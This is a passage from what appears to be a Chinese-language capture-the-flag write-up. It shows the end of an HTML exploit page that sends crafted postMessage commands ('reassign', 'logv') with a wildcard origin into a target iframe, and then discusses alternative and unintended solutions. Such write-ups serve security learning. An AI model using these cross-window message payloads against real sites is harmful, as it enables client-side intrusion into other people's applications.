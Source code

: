 ``` html

    // wait for 3s to let window loaded
    setTimeout(() => {
      const credentials = {
        username: 'a',
        password: 'a'
      }
      win.frames[1].postMessage({
        cmd: 'reassign',
        message:{
          a: 's',
          b: 'u'
        },
        credentials
      }, '*')

      win.frames[1].postMessage({
        cmd: 'reassign',
        message:{
          a: 'Z',
          b: 'x+1'
        },
        credentials
      }, '*')

      win.frames[1].postMessage({
        cmd: 'logv',
        message: 'Z',
        credentials
      }, '*')
    }, 3000)

  </script>
</body>
</html>

```

## 其他解法

我的方法是新開一個 window 來 post message，但其實也可以把自己作為 iframe，讓 htmledit.php embed，這樣的話其實也可以用 top.postMessage 去傳送訊息。

「把自己 embed 在其他網頁中」這個是我很常忘記的一個方法。

另一個非預期的解法也很神奇，是根據這一段：

``` js
case "log": {
  log("[log]: ", e.data.message.text, type=e.data.message.type);
  break;
}
```
